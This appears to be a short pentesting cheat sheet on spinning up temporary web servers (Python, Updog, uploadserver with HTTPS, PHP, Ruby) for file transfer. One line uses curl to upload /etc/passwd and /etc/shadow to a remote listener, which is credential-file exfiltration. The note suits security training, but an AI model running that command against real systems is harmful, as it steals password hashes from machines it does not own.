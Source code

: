 # Personal web server

### Python

```bash
python3 -m http.server 8080
```

### Updog

```
updog -d $(echo $(pwd)/) -p 80
```

### uploadserver

```shell-session
sudo python3 -m pip install --user uploadserver
```

* make it secure

```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
mkdir https && cd https
```

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Linux - Upload Multiple Files**

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

* We used the option `--insecure` because we used a self-signed certificate that we trust.

### Linux - Creating a Web Server with PHP

```shell-session
php -S 0.0.0.0:8000
```

### Linux - Creating a Web Server with Ruby

```shell-session
ruby -run -ehttpd . -p8000
```

## References

* [https://realpython.com/python-http-server/](https://realpython.com/python-http-server/)
